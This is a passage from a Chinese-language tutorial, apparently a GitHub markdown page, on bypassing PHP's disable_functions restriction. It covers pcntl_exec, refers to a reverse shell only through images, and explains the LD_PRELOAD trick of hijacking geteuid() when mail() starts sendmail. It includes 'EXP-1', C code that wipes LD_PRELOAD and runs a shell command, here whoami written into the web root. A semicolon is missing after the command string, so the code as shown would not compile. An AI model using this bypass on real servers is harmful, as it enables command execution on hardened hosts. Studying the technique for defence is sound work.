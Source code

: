 ![](ByPaass_disable_Function.assets/ByPass disable_function_3.png)

反弹shell

![](ByPaass_disable_Function.assets/ByPass disable_function_4.png)

- pcntl_exec()

```php
void pcntl_exec ( string $path [, array $args [, array $envs ]] )
```

path是可执行二进制文件路径或一个在文件第一行指定了 一个可执行文件路径标头的脚本
args是一个要传递给程序的参数的字符串数组。

pcntl是linux下的一个扩展，需要额外安装，可以支持 php 的多线程操作。

pcntl_exec函数的作用是在当前进程空间执行指定程序，版本要求：PHP > 4.2.0

### LD_PRELOAD绕过

**LD_PRELOAD**是linux系统下的环境变量，它允许你在定义程序运行前优先加载动态链接库，这个功能只要是用来有选择性的载入不同的不同动态链接库的中的相同函数。通过这个环境变量，可以在主程序和其他动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面可以使用自己的或是更好的的函数（无需别人的源码），而另一方面，我们也可以向别人的程序注入程序，从而达到特定的目的。

找寻内部启动新进程的 PHP 函数。虽然 LD_PRELOAD 提供了劫持系统函数的能力，但前提是必须得控制 php 启动外部程序才行（只要有进程启动行为即可，无所谓是谁） ，经过探索可以知道php中的mail()函数调用之后会启动sendmail这个进程。 运行 PHP 的 mail() 函数，mail() 内部启动新进程 /usr/sbin/sendmail，由于 LD_PRELOAD 的作用，sendmail 调用的系统函数 geteuid() 被优先级更好的 geteuid_shadow.so 中的同名 geteuid() 所劫持。

#### EXP-1

动态链接库C脚本

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

int geteuid ()
{
    const char* cmdline = "whoami > /var/www/html/test.txt"
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }
    system(cmdline);
}

```
